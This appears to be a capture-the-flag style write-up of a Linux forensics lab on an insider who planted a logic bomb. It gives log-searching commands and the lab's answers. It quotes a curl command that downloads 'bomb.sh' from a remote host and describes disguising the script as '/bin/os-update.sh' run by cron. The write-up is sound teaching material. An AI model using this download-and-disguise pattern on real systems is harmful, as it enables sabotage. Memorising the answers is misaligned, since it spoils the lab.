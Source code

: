 # 🐧 Disgruntled: Insider Threat – Linux Forensics Investigation

## 🧠 Scenario

An employee from the IT department of one of our clients, **CyberT**, was recently arrested for running a phishing operation. CyberT has asked us to investigate a Linux system the individual accessed to determine whether any malicious activity occurred prior to their arrest.

This investigation required reviewing log files, shell history, and cron jobs to uncover potential insider threats.

---

## 🔍 Questions & Answers

---

### 1) The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

```bash
cat /var/log/auth.log | grep "install"
```
![installed package](Task1_answer.png)

> **Answer:** `/usr/bin/apt install dokuwiki`

---

### 2) What was the present working directory (PWD) when the previous command was run?

```bash
cat /var/log/auth.log | grep "install"
```
![installed package](Task1_answer.png)
> **Answer:** `/home/cybert`

---

### 3) Which user was created after the package from the previous task was installed?

```bash
cat /var/log/auth.log | grep "adduser"
```
![user added](task2_q1_answer.png)
> **Answer:** `it-admin`

---

### 4) A user was then later given sudo privileges. When was the sudoers file updated?  
_Format: Month Day HH:MM:SS_

```bash
cat /var/log/auth.log | grep "visudo"
```

> **Answer:** `Dec 28 06:27:34`

---

### 5) A script file was opened using the "vi" text editor. What is the name of this file?

```bash
cat /var/log/auth.log | grep "vi"
```

> **Answer:** `bomb.sh`

---

### 6) What is the command used that created the file bomb.sh?

```bash
cat /home/it-admin/.bash_history
```

> **Answer:** `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`

---

### 7) The file was renamed and moved to a different directory. What is the full path of this file now?

```bash
cat /home/it-admin/.viminfo
```

> **Answer:** `/bin/os-update.sh`

---

### 8) When was the file from the previous question last modified?  
_Format: Month Day HH:MM_

```bash
ls -al --full-time /bin/os-update.sh
```

> **Answer:** `Dec 28 06:29`

---

### 9) What is the name of the file that will get created when the file from the first question executes?

```bash
cat /bin/os-update.sh
```

> **Answer:** `goodbye.txt`

---

### 10) At what time will the malicious file trigger?  
_Format: HH:MM AM/PM_

```bash
crontab -l
```

> **Answer:** `08:00 AM`

---



